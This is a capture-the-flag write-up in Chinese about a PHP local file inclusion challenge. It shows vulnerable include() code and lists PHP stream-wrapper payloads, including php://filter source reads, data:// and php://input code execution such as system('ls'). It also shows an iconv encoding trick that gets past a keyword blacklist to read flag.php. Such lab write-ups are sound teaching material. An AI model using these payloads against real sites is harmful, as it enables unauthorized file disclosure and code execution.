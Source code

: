 # 题目： file_include

[![p90PvnJ.md.png](https://s1.ax1x.com/2023/05/08/p90PvnJ.md.png)](https://imgse.com/i/p90PvnJ)

+ 打开网页，是PHP代码审计，有关文件包含函数的运用，代码如下：

  ```php
  <?php
  highlight_file(__FILE__);
      include("./check.php");
      if(isset($_GET['filename'])){
          $filename  = $_GET['filename'];
          include($filename);
      }
  ?>
  ```

## 代码分析

1. `include(file)`：将`file`下的PHP文件插入到当前PHP文件中（在服务器执行`file`之前），后续的代码可以直接使用它的变量，函数，类等等；
   + `require(file)`跟`include(file)`功能相同，只是当文件不存在时，`require`会报错并停止运行，`include`会发出警告继续执行代码；

## 解题过程

+ 本题提供文件包含问题的一个思路：利用php://filter伪协议查看源文件；

  `include(file)`，`file`参数通常由GET或POST请求得到，当请求为php://filter协议包装时，可以绕过一些文件检查；

### php伪协议总结

####  php://filter伪协议

+ php://filter是php中独有的一种协议，它是一种过滤器，可以作为一个中间流来过滤其他的数据流。通常使用该协议来读取或者写入部分数据，且在读取和写入之前对数据进行一些过滤，例如base64编码处理，rot13处理等；

+ filter的一般语法：

  ```
  php://filter/过滤器/resource=待过滤的数据流
  ```

  - 过滤器可以设置多个，按顺序依次对数据流进行过滤；过滤器大致可分为四类：字符串过滤器、转换过滤器、压缩过滤器、加密过滤器；
  - 过滤器中的可以是`read=`（读文件）或`write=`（写文件），若没有指明则默认是读；`read`有可能被当做关键词而屏蔽；

1. 字符串过滤

   举例语法：

   ```
   php://filter/read=string.rot13/resource=data://text/plain,abcdefg       #rot13编码
   php://filter/read=string.toupper/resource=data://text/plain,abcdefg     #大写转化，小写转化使用tolower
   php://filter/read=string.strip_tags/resource=data://text/plain,<a>s</a> #去除PHP，HTML标签
   ```

2. 转化过滤器

   举例语法：

   ```
   php://filter/read=convert.base64-encode/resource=data://text/plain,m1sn0w           #base64编码
   php://filter/read=convert.quoted-printable-encode/resource=data://text/plain,m1sn0w #将不能用ASCII表示的字符转化为两位十六进制数(8bit)
   php://filter/zlib.deflate/resource=flag.php                                         #将数据流进行压缩
   php://filter/zlib.deflate|zlib.inflate/resource=flag.php                            #将数据流进行解压缩
   #压缩解压缩过滤器也可以用：bzip2.compress和bzip2.decompress
   php://filter/read=convert.iconv.utf-8.utf-16/resource=data://text/plain,m1sn0w      #将输入的字符串编码转化为输出的字符串编码
   #格式为：convert.iconv.<input-encoding>.<output-encoding> 或者 convert.iconv.<input-encoding>/<output-encoding>
   ```

   convert.iconv支持的编码格式如下：

   ```
   UCS-4*
   UCS-4BE
   UCS-4LE*
   UCS-2
   UCS-2BE
   UCS-2LE
   UTF-32*
   UTF-32BE*
   UTF-32LE*
   UTF-16*
   UTF-16BE*
   UTF-16LE*
   UTF-7
   UTF7-IMAP
   UTF-8*
   ASCII*
   EUC-JP*
   SJIS*
   eucJP-win*
   SJIS-win*
   ```

#### zip://, bzip2://, zlib://协议

+ zip://， bzip2://，zlib://均属于压缩流，可以访问压缩文件中的子文件，更重要的是不需要指定后缀名，可修改为任意后缀：jpg，png，gif，xxx等等；

+ 举例语法：

  ```
  zip://\var\WWW\phpinfo.jpg#phpinfo.txt #压缩phpinfo.txt文件为phpinfo.zip,重命名压缩包为phpinfo.jpg，再上传
  compress.bzip2://\var\WWW\phpinfo.bz2  #压缩phpinfo.txt文件为phpinfo.bz2并上传
  compress.zlib://\var\WWW\phpinfo.gz    #压缩phpinfo.txt文件为phpinfo.gz并上传
  #它们均支持将压缩包修改为任意的后缀名
  ```

#### data://协议

+ data://可以封装数据，用来传递数据，传递时会被认为是一个文件，可以被`file_get_content()`正确解析；

+ 举例语法：

  ```
  data://text/plain,<?php phpinfo();?> #不做处理，直接传递字符串
  data://text/plain;base64,PD9waHAgcGhwaW5mbygpOz8+ #将字符串进行base64解码再传递字符串
  ```

#### php://input协议

+ php://input可以访问请求的原始数据的只读流，用于执行PHP代码；

+ 举例语法：

  ```
  POST /?file=php://input HTTP/1.1
  ...
  <?php system("ls");?>
  ```

  注意需要采用POST方式提交，在表单`enctype="multipart/form-data"`时，执行无效；

### 构造payload

回到本题中，我们可以先尝试使用php://filter读取check.php的文件

payload如下：

```
php://fil1ter/convert.base64-encode/resource=index.php
```

[![p90E8Gq.md.png](https://s1.ax1x.com/2023/05/08/p90E8Gq.md.png)](https://imgse.com/i/p90E8Gq)

 结果被屏蔽了，可能是屏蔽了base64关键字；

对比payload：

```
?filename=php://fil1ter/con1vert.b1ase64-e1ncode/resource=check.php
?filename=php://fil1ter/con1vert.base64-e1ncode/resource=check.php
```

发现base64确实是被过滤了，我们再尝试使用其他的过滤器；

```
?filename=php://filter/string.rot13/resource=check.php
?filename=php://filter/convert.iconv.utf-8.utf-16/resource=check .php
```

发现rot13被屏蔽，iconv有多种编码格式，需要进一步尝试是否被屏蔽，使用BurpSuite Intruder测试；

#### [BurpSuite爆破的四种方式讲解](https://blog.csdn.net/weixin_43487849/article/details/116084562)

Attack方式选择Cluster bomb，如下：

[![p90KZkD.md.png](https://s1.ax1x.com/2023/05/08/p90KZkD.md.png)](https://imgse.com/i/p90KZkD)

通过观察Response长度即可大致判断是否测试成功，有很多种编码都能正确返回check.php的内容

[![p90Kvut.md.png](https://s1.ax1x.com/2023/05/08/p90Kvut.md.png)](https://imgse.com/i/p90Kvut)

一个可能的payload如下：

```
?filename=php://filter/convert.iconv.SJIS-win*.UCS-4*/resource=check.php
```

观察check.php，确实是过滤了`/base be encode print zlib quoted write rot13 string`这些关键词；

并没有给出flag的信息，我们尝试访问`flag.php`也许能得到`flag`，payload如下：

```
?filename=php://filter/convert.iconv.SJIS-win*.UCS-4*/resource=flag.php
```

[![p90MuUU.md.png](https://s1.ax1x.com/2023/05/08/p90MuUU.md.png)](https://imgse.com/i/p90MuUU)

成功得到flag。
